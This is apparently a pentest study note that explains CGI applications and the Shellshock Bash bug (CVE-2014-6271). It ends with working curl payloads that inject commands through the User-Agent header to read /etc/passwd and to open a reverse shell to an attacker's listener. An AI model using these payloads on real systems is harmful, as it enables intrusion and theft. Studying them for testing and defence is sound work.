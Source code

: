 # CGI Applications

## **Introduction**

> * A Common Gateway Interface (CGI) is used to help a web server render dynamic pages and create a customized response for the user making a request via a web application.
> * CGI applications are primarily used to access other applications running on a web server.
> * CGI is essentially middleware between web servers, external databases, and information sources.
> * CGI scripts and programs are kept in the `/CGI-bin` directory on a web server
> * Typically written in C, C++, Java, PERL, etc
> * CGI scripts run in the security context of the web server

***

## **CGI Applications - Shellshock \[CVE-2014-6271]**

> * The most well-known CGI attack is exploiting the Shellshock (aka, "Bash bug") vulnerability via CGI.
> * **Resource:** https://nvd.nist.gov/vuln/detail/CVE-2014-6271
> * **Affected Versions:** `GNU Bash up until version 4.3`
> * **Description:** Shellshock is a security flaw in the Bash shell that allows an attacker to `execute operating system commands that are included after a function stored inside an environment variable.`
> * **PoC Example:** `env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"`
>   * Nothing will happen when the environment variable is assigned a value
>   * If the target is vulnerable, whenever the environment variable is imported, the command `echo vulnerable-shellshock` will be executed
>   * If the target is NOT vulnerable, then the command `echo not vulnerable` will be executed

**Shellshock PoC to read any file:**\
`curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://target.com/cgi-bin/access.cgi`

**Shellshock PoC to gain a Reverse Shell:**\
`curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/your-ip/your-nc-port 0>&1' http://target.com/cgi-bin/access.cgi`
